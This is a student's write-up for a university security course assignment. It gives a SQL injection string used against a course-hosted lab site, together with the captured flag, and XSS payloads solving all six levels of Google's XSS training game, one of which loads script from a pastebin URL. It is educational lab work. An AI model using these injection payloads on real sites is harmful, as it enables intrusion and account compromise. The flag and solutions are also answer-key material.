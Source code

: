 # Writeup 1 - Web I

Name: Andrew Figlarz
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Andrew Figlarz


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)


Part 1:

When you click on any of the item pages you can see there is a “id=0” tag at the end of the URL. I tried to exploit this by using the 1=1 SQL trick. So, what I did was replace this end of the URL with: id='||'1'='1. I then found the flag when I scrolled down the page. The whole web URL was: http://142.93.136.81:5000/item?id=%27||%271%27=%271 . I think that the %27 came from the single quotations being interpreted a special way.

Flag: CMSC389R-{y0u_ar3_th3_SQ1_ninj@}


### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

Produce a writeup. We will not take off points for viewing the source code and/or viewing hints, but we strongly discourage reading online write-ups as that defeats the purpose of the homework.

### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.


Level1: 
You can just pass in the normal script tags with alert() into the search box. 
<script>alert()</script>

Level2:
Since the script tags no longer work for this level, I tried to use a button instead to trigger the alert.
<button onclick="alert()">Click</button>

Level 3:
I noticed that you can trigger an error by replacing the frame with a string, so by adding the “onerror” option you can cause an alert to trigger. 
https://xss-game.appspot.com/level3/frame#1' onerror='alert()'

Level 4:
I noticed that you could do something like command injection by imputing the alert in the following format:
'); alert('

Level 5:
I just tried changing what was after the equals sign to an alert and it worked.
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert();

Level 6:
I was stuck on this one for a while. I figured out that you could have the website point to another website instead of a file on the local directory. I had to lookup how to get it to work though. This included putting the HTTPS in caps. I also created a pastebin that contained just the text: alert() so that the alert could trigger. 
https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw/vcqzHGq2

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
